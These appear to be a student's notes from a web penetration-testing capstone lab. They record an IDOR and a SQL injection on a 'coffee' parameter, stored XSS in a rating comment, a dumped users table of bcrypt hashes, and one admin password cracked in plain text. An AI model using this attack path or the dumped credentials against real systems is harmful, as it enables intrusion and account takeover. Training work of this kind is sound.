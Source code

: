 Web Capstone Notes

IP: 10.9.76.12

# Findings
## IDOR in main application
  * Application allows direct access to different changes by chaing the 'coffee=1' variable
    http://10.19.76.12/capstone/coffee.php?coffee=3

## XSS in main application (Login Required)
  * "Add rating" functionality allows xss in the comment field.

## Backend DB is vulerable to injection on the coffee variable

```bash
Table: users
[9 entries]
+---------+--------+--------------------------------------------------------------+----------+
| user_id | type   | password                                                     | username |
+---------+--------+--------------------------------------------------------------+----------+
| 1       | admin  | $2y$10$F9bvqz5eoawIS6g0FH.wGOUkNdBYLFBaCSzXvo2HTegQdNg/HlMJy | jeremy   |
| 2       | admin  | $2y$10$meh2WXtPZgzZPZrjAmHi2ObKk6uXd2yZio7EB8t.MVuV1KwhWv6yS | jessamy  |
| 3       | admin  | $2y$10$cCXaMFLC.ymTSqu1whYWbuU38RBN900NutjYBvCClqh.UHHg/XfFy | raj      |
| 4       | user   | $2y$10$ojC8YCMKX2r/Suqco/h.TOFTIaw5k3Io5FVSCeWjCCqL8GWwmAczC | bob      |
| 5       | user   | $2y$10$EPM4Unjn4wnn4SjoEPJu7em6OLISImA50QS3T1jCLyh48d7Pv6KBi | maria    |
| 6       | user   | $2y$10$qAXjb233b7CMHc69CU.8ueluFWZDt9f08.XYJjsJ.EfC/O5JGSOqW | amir     |
| 7       | user   | $2y$10$37gojoTFmj86E6NbENGg9e2Xu2z6OKKSgnjYxDkXJn/8dvSk2tKfG | xinyi    |
| 8       | user   | $2y$10$5sVvPfZOjzRTSeXJtQBGc.CfsDEwvITNkIg2IF9jSBhZZ1Rq.IK3. | kofi     |
| 9       | user   | $2y$10$w.S/gafFLeH/5hfWnTadBOzL5hPmU/./OB/.XAqP9i.Uz4Wp5I7Pm | chvxt3r  |
+---------+--------+--------------------------------------------------------------+----------+
```

## Passwords are easily cracked
$2y$10$F9bvqz5eoawIS6g0FH.wGOUkNdBYLFBaCSzXvo2HTegQdNg/HlMJy:captain1

test
